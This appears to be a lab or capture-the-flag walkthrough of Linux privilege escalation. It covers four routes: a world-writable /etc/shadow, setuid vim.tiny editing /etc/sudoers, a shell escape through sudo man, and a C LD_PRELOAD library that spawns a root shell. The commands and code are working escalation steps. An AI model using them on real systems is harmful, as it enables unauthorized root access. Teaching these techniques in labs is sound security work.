



# Linux Privilege Escalation

## Misconfigured File Permissions

**Step 1 :** will look for files (and not symlinks etc) that are writable.


```
find / -not -type l -perm -o+w
```


<figure><figcaption></figcaption></figure>

**Step 2 :** Observe from the result that **/etc/shadow** is world writable.Verify the same and also check its contents.


```shellscript
ls -l /etc/shadow
cat /etc/shadow
```


<figure><figcaption></figcaption></figure>

**Step 3 :** Observe that the root password is not set. Adding a known password in the shadow file can escalate to root. Use openssl to generate a password entry.


```
openssl passwd -1 -salt abc password
```


<figure><figcaption></figcaption></figure>

**Step 7:** Copy the generated entry and add it to the root record in /etc/shadow

<figure><figcaption></figcaption></figure>

**Step 8:** After making the changes, try to switch to the root user.


```
su root
```


<figure><figcaption></figcaption></figure>

***

## **Exploiting Setuid**

**Step 1  :**  search for all setuid programs.


```
find / -user root -perm -4000 -exec ls -ldb {} \;
```


<figure><figcaption></figcaption></figure>

**Step 2 :** Observe that in addition to default programs, setuid bit is set for vim.tiny&#x20;


Leverage this and use the vim.tiny to modify /etc/sudoers file.



```
vim.tiny /etc/sudoers
```



1. Press <mark style="color:$danger;">**`i`**</mark> to insert and then add <mark style="color:$danger;">**`student ALL=NOPASSWD:ALL`**</mark>&#x20;
2. Press the <mark style="color:$danger;">**`Escape button`**</mark> and enter <mark style="color:$danger;">**`:wq!`**</mark> to exit and save the file.


<figure><figcaption></figcaption></figure>

**Step 3 :** After saving the /etc/sudoers file, run /bin/bash as root using sudo


```
sudo /bin/bash
```


<figure><figcaption></figcaption></figure>

***

## Misconfigured SUDO Privileges

**Step 1 :** finding misconfigured sudo. Check the current sudo capabilities.


```
sudo -l
```


<figure><figcaption></figcaption></figure>

**Step 2 :** The man entry depicts that the man command can be run using sudo without providing any password.&#x20;


```
sudo man ls
!/bin/bash
```



Run it and launch !/bin/bash from it


<figure><figcaption></figcaption></figure>

**Step 3 :** Observe that the escalation to root user is successful. Change to /root directory and retrieve the flag.


```
cd /root
```


<figure><figcaption></figcaption></figure>

***

## Shared Library injection

**Step 1 :** Start with checking sudo configuration. Observe that the student user can run apache2 with sudo (as root) without providing any password. Also, LD\_PRELOAD environment variable can be set.


```
sudo -l
```


<figure><figcaption></figcaption></figure>

**Step 2 :** Create a file (shell.c) with the code:


```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```


<figure><figcaption></figcaption></figure>

**Step 3  :** Compile the code to create a shared library named shell.so.


```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```


<figure><figcaption></figcaption></figure>

**Step 4 :** Once the shell.so is ready, use sudo to change value of LD\_PRELOAD variable to path of shell.so and also call the apache2 program. This will lead into execution of the code written in \_init() function of the shell.so and launch an elevated shell.


```
sudo LD_PRELOAD=/home/student/shell.so apache2
```


<figure><figcaption></figcaption></figure>

**Step 5 :** After getting elevated session, retrieve the flag from /root directory.


```
cd /root
```


<figure><figcaption></figcaption></figure>
